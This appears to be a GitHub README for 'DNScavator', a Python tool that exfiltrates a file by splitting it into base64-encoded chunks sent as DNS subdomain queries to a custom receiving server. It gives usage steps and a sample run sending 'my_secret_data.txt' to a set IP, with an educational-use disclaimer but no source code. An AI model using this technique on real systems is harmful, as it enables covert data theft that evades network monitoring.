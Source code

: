 ![image](https://github.com/user-attachments/assets/1bad0b68-7d5d-4fe0-b5c2-8106a6ff9189)


# dnscavator
# DNScavator - DNS Data Exfiltration Tool

This Python script, `dnscavator.py`, is a tool for exfiltrating data via DNS queries. It splits a specified file into chunks, base64 encodes each chunk, and sends them as DNS queries to a designated DNS server.  The data is encoded within the subdomain part of the DNS query.

## Disclaimer

This tool is provided for educational and ethical testing purposes only. Using this tool for unauthorized data exfiltration is illegal and unethical. The author is not responsible for any misuse of this tool.

## Features

*   File chunking: Splits the input file into smaller chunks suitable for DNS payloads (approximately 250 bytes).
*   Base64 encoding: Encodes each chunk using Base64 for safe transmission within DNS queries.
*   DNS query generation: Constructs DNS queries with the encoded data in the subdomain.
*   UDP transport: Sends DNS queries over UDP.
*   User-friendly interface: Prompts the user for the file path and DNS server IP address.

## Requirements

*   Python 3.x

## How to Use

1.  **Clone the repository (optional):** If you downloaded the code as a zip file, extract it.

2.  **Run the script:** Open a terminal or command prompt, navigate to the directory containing `dnscavator.py`, and execute it using:

    ```bash
    python dnscavator.py
    ```

3.  **Enter file path:** The script will prompt you to enter the path to the file you want to exfiltrate.  Make sure the file exists and you have read permissions.

4.  **Enter DNS server IP:**  Enter the IP address of the DNS server where you intend to send the data.  **Important:** This DNS server must be configured to receive and handle these queries.  A standard public DNS server will likely not work as the queries are malformed and will be rejected.  You will typically need a custom DNS server setup for receiving the data.

5.  **Data exfiltration:** The script will then split the file into chunks, encode them, and send them as DNS queries to the specified server. The progress and any errors will be displayed in the terminal.

## Example

python dnscavator.py
Enter the path to the file you want to send: my_secret_data.txt
Enter the IP address of the DNS server to send data to: 192.168.1.100

Starting data exfiltration...
File: my_secret_data.txt
DNS Server: 192.168.1.100

Sent chunk to 192.168.1.100
Sent chunk to 192.168.1.100
...
Data exfiltration complete!


## Important Considerations

*   **DNS Server Setup:**  This tool requires a specially configured DNS server to receive and process the DNS queries.  Standard DNS servers will likely ignore or reject these queries.  You will need to set up your own DNS server to capture the encoded data.
*   **Data Reconstruction:**  The receiving DNS server will need to reconstruct the original file from the received DNS query data.  This is not included in this script.
*   **DNS Payload Size:**  DNS has size limitations. This script uses a chunk size that is generally safe, but you might need to adjust it depending on your DNS server configuration.
*   **Network Conditions:**  Network issues may cause some chunks to be lost.  Error handling and retransmission mechanisms could be implemented for more robust exfiltration.
*   **Ethical Use:**  Use this tool responsibly and ethically.  Unauthorized data exfiltration is illegal.

## Author

4rk4n3

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.  (Add a LICENSE file if you wish to use an open-source license).
